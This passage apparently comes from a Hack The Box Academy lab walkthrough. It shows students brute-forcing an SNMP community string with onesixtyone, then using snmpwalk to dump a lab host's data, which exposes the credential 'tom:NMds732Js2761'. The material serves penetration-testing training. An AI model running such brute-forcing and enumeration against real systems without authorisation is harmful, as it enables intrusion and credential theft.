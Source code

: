 ```
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: 5b99e75a10288b6100000000
|   snmpEngineBoots: 10
|_  snmpEngineTime: 25m10s
993/udp closed imaps
995/udp closed pop3s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Subsequently, students need to utilize `onesixtyone` to bruteforce the names of the community string, to find it to be `backup`:

```shell
onesixtyone -c /opt/useful/SecLists/Discovery/SNMP/snmp-onesixtyone.txt STMIP
```
```
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-tphppderas]─[~]
└──╼ [★]$ onesixtyone -c /opt/useful/SecLists/Discovery/SNMP/snmp-onesixtyone.txt 10.129.78.175

Scanning 1 hosts, 3219 communities
10.129.78.175 [backup] Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
```

With the attained community string, students need to use `Snmpwalk` to query the `OIDs` with their information, finding the credentials `tom:NMds732Js2761`:

```shell
snmpwalk -v2c -c backup STMIP
```
```
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-tphppderas]─[~]
└──╼ [★]$ snmpwalk -v2c -c backup 10.129.78.175

iso.3.6.1.2.1.1.1.0 = STRING: "Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
<SNIP>
iso.3.6.1.2.1.25.1.7.1.2.1.2.6.66.65.67.75.85.80 = STRING: "/opt/tom-recovery.sh"
iso.3.6.1.2.1.25.1.7.1.2.1.3.6.66.65.67.75.85.80 = STRING: "tom NMds732Js2761"
iso.3.6.1.2.1.25.1.7.1.2.1.4.6.66.65.67.75.85.80 = ""
iso.3.6.1.2.1.25.1.7.1.2.1.5.6.66.65.67.75.85.80 = INTEGER: 5
iso.3.6.1.2.1.25.1.7.1.2.1.6.6.66.65.67.75.85.80 = INTEGER: 1
iso.3.6.1.2.1.25.1.7.1.2.1.7.6.66.65.67.75.85.80 = INTEGER: 1
iso.3.6.1.2.1.25.1.7.1.2.1.20.6.66.65.67.75.85.80 = INTEGER: 4
iso.3.6.1.2.1.25.1.7.1.2.1.21.6.66.65.67.75.85.80 = INTEGER: 1
iso.3.6.1.2.1.25.1.7.1.3.1.1.6.66.65.67.75.85.80 = STRING: "chpasswd: (user tom) pam_chauthtok() failed, error:"
iso.3.6.1.2.1.25.1.7.1.3.1.2.6.66.65.67.75.85.80 = STRING: "chpasswd: (user tom) pam_chauthtok() failed, error:
Authentication token manipulation error
chpasswd: (line 1, user tom) password not changed
Changing password for tom."
iso.3.6.1.2.1.25.1.7.1.3.1.3.6.66.65.67.75.85.80 = INTEGER: 4
iso.3.6.1.2.1.25.1.7.1.3.1.4.6.66.65.67.75.85.80 = INTEGER: 1
iso.3.6.1.2.1.25.1.7.1.4.1.2.6.66.65.67.75.85.80.1 = STRING: "chpasswd: (user tom) pam_chauthtok() failed, error:"
iso.3.6.1.2.1.25.1.7.1.4.1.2.6.66.65.67.75.85.80.2 = STRING: "Authentication token manipulation error"
iso.3.6.1.2.1.25.1.7.1.4.1.2.6.66.65.67.75.85.80.3 = STRING: "chpasswd: (line 1, user tom) password not changed"
iso.3.6.1.2.1.25.1.7.1.4.1.2.6.66.65.67.75.85.80.4 = STRING: "Changing password for tom."
iso.3.6.1.2.1.25.1.7.1.4.1.2.6.66.65.67.75.85.80.4 = No more variables left in this MIB View (It is past the end of the MIB tree)
```